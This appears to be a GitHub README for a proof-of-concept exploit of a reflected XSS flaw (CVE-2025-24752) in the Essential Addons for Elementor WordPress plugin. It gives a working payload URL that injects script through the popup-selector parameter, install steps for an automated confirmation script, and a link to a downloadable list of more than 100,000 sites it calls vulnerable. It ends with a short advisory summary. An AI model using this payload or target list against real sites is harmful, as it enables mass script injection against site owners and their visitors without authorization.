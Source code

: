 Please do not harm sites, FIX it ASAP
targets vulnerable 100K+ probably affecting for XSS https://nt.ls/AkTE9 (can download by one click all vulnerable)

##### Requirement to run poc.py, Install -

```pip install selenium webdriver-manager```


![image](https://github.com/user-attachments/assets/4167280d-787d-45cd-81eb-4a5c25368885)

#### manual POC elementor XSS 2025
 ==> ```https://target.com/?popup-selector=<img_src=x_onerror=alert("chirag")>&eael-lostpassword=1```

 
![image](https://github.com/user-attachments/assets/50d75f05-1392-4acf-9889-525e54ca5128)


Note: My script works slow, but it can 1000% confirm XSS bug unlike nuclei or httpx. I tried all the things, version below 6.0.15 are affected.

#### Information & reference 
https://patchstack.com/articles/reflected-xss-patched-in-essential-addons-for-elementor-affecting-2-million-sites/
The Essential Addons for Elementor plugin suffered from a reflected cross-site scripting (XSS) vulnerability. The vulnerability occurred due to insufficient validation and sanitizing of the popup-selector query argument, allowing for a malicious value to be reflected back at the user. The vulnerability is fixed in version 6.0.15 and has been tracked with CVE-2025-24752.
